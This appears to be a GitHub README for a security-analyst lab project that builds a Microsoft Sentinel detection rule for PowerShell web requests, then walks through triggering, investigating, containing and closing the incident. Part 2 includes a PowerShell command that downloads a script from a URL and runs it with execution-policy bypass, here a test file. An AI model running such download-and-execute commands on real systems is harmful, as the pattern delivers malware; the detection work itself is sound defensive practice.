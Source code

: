 # Incident-Response-PowerShell-Suspicious-Web-Request-NIST-800-61

![maxresdefault](https://github.com/user-attachments/assets/558ecbf6-9f87-49e7-8ba5-4a887e417840)

# Felipe Restrepo - Incident Response Project: PowerShell Suspicious Web Request

![1_H8m1AnUcij509FjfffrQ4w](https://github.com/user-attachments/assets/49cf05ff-84b1-4c26-8f68-0a0662b26d38)

# Explanation
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

When processes are executed/run on the local VM, logs will be forwarded to Microsoft Defender for Endpoint under the DeviceProcessEvents table. These logs are then forwarded to the Log Analytics Workspace being used by Microsoft Sentinel, our SIEM. Within Sentinel, we will define an alert to trigger when PowerShell is used to download a remote file from the internet. 

![Screenshot 2025-06-25 003037](https://github.com/user-attachments/assets/ef91ba7b-99fa-489b-84f2-de5439d8f486)

## 📌 Overview
This Microsoft Sentinel project demonstrates a real-world incident response scenario where PowerShell is abused by an attacker to download potentially malicious scripts using `Invoke-WebRequest`. It walks through every phase of the NIST 800-61 Incident Response Lifecycle and shows how to:

- Detect the suspicious behavior
- Automate alerting and incident generation
- Investigate and analyze
- Contain and recover
- Document findings and improve defenses

---

## 🔍 Step-by-Step Implementation

### ✅ Part 1: Create Alert Rule - PowerShell Suspicious Web Request

![Screenshot 2025-06-24 234055](https://github.com/user-attachments/assets/1aadda59-905b-48d9-a49e-80082432cdf1)

**Purpose:** Detect when PowerShell is used to download files using `Invoke-WebRequest`, signaling possible attacker activity.

**Rule Details:**
- **Name:** Felipe Restrepo - PowerShell Suspicious Web Request
- **Severity:** Medium
- **MITRE ATT&CK:**
  - T1071.001 – Web Protocols
  - T1105 – Ingress Tool Transfer
  - T1203 – Exploitation for Client Execution
  - T1041 – Exfiltration Over C2

![Screenshot 2025-06-24 234237](https://github.com/user-attachments/assets/cc3c270f-d6ff-4279-88f9-dfec5deeb90e)
![Screenshot 2025-06-24 234305](https://github.com/user-attachments/assets/34f16295-add7-4e24-94d1-c9a14b4ea98f)
![Screenshot 2025-06-24 234328](https://github.com/user-attachments/assets/6783eed8-1419-4337-bd55-b0f19ec22298)
![Screenshot 2025-06-24 234354](https://github.com/user-attachments/assets/0911b21c-7516-49f1-a39c-96af079259d2)

**KQL Detection Query:**
```kql
let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "invoke-WebRequest"
```
![Screenshot 2025-06-24 234521](https://github.com/user-attachments/assets/e664e423-be08-4553-975a-1f3b06279ff7)

- **Entity Mapping:**
  - Account → AccountName
  - Host → DeviceName
  - Process → ProcessCommandLine
![Screenshot 2025-06-24 234645](https://github.com/user-attachments/assets/d8c4abf2-1602-4244-bcb8-0dd5bdced36c)

- **Query Schedule:** Every 4 hours, looking back 24 hours

![Screenshot 2025-06-24 234716](https://github.com/user-attachments/assets/da49f487-065f-4455-a9f2-9a58bd509126)

- **Alert threshold:** Is greater than 0

![Screenshot 2025-06-24 234723](https://github.com/user-attachments/assets/6e50c1d3-fc62-4923-bd82-e934bb148e45)

- **Suppression:** Enabled for 24 hours

![Screenshot 2025-06-24 234742](https://github.com/user-attachments/assets/30152700-f6b1-4a5a-aca9-2b18b6926315)

- **Alert Grouping**: Enabled

![Screenshot 2025-06-24 234800](https://github.com/user-attachments/assets/1f3d2470-4461-4ee5-97e1-5c1cfaf79830)

- **Rule Created and Actived by me who owns it**
![Screenshot 2025-06-24 234832](https://github.com/user-attachments/assets/212fb1fb-349e-42ac-9108-0a275b1d46f9)
![Screenshot 2025-06-24 235240](https://github.com/user-attachments/assets/07c7b81d-8d5d-4c85-92fe-52e8af568b7b)

---

### 🛑 Part 2: Trigger Alert & Create Incident

**Purpose:** Generate logs by executing PowerShell web requests, which will trigger the alert rule in Sentinel.

**PowerShell Commands to Run on VM:**
```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```
**Result:** Microsoft Sentinel triggers the scheduled query and creates an incident.

---

### 🔎 Part 3: Investigate and Analyze the Incident

**Actions Taken:**
1. Alert was triggered on `windows-target-1`.
2. Entity mappings showed the account and command line activity.
3. User claimed they had installed free software before event.
4. Defender for Endpoint showed:

**KQL to Confirm Execution of Scripts:**
```kql
let TargetHostname = "windows-target-1";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

![Screenshot 2025-06-25 001034](https://github.com/user-attachments/assets/91a00692-083c-4b29-8ff8-477de82106b5)

**🔎Investigated in the Investigation page for better analysis**

![Screenshot 2025-06-24 235327](https://github.com/user-attachments/assets/45bfd65a-e1f2-42c2-8147-b855e47d3c6c)
![Screenshot 2025-06-24 235648](https://github.com/user-attachments/assets/17eb0586-3194-444e-88fb-7b0335d7d6c8)


**Summary of Detected Scripts:**
| Script | Description |
|--------|-------------|
| `portscan.ps1` | Simulates a port scan |
| `pwncrypt.ps1` | Simulates ransomware-like encryption |
| `eicar.ps1` | Triggers antivirus as a test |
| `exfiltratedata.ps1` | Simulates data exfiltration |

---

### 🔒 Part 4: Containment, Eradication, and Recovery

**Actions:**
- Isolated VM in Microsoft Defender for Endpoint (MDE)
![Screenshot 2025-06-25 001624](https://github.com/user-attachments/assets/95d9320a-ee4b-4fe8-b894-2f2110cbaa99)

- Ran antivirus scan

![Screenshot 2025-06-25 001631](https://github.com/user-attachments/assets/3e522f68-c2e1-4eb6-8763-5e20119e8f75)

- Removed isolation after VM came back clean

---

### 📘 Part 5: Post-Incident Activities

**Notes and Improvements:**
- Updated PowerShell policy to restrict use to admins only
- Enrolled user in advanced cybersecurity awareness training (via KnowBe4)

---

### 🧹 Part 6: Process Closed and Cleaned Up

**After adding the notes to the incident I closed the case to show that I was able Respond to the Incident**

![Screenshot 2025-06-25 004354](https://github.com/user-attachments/assets/91ceca36-e86e-40dc-bc59-d9e967c5d46b)
![Screenshot 2025-06-25 004532](https://github.com/user-attachments/assets/1f4dc191-7480-4a76-8088-a66253e10c2a)

---

## 📌 Final Notes:
- This project is based on Felipe Restrepo's real-world detection and incident response case using Microsoft Sentinel.
- It emphasizes a full detection-to-resolution workflow with hands-on implementation of a MITRE-aligned use case.
- Ideal for security analyst portfolios or blue team practice labs.

---

### 📎 References
- Microsoft Sentinel documentation
- MITRE ATT&CK Framework
- Josh Madakor Cyber Range Scripts
- NIST 800-61: Computer Security Incident Handling Guide
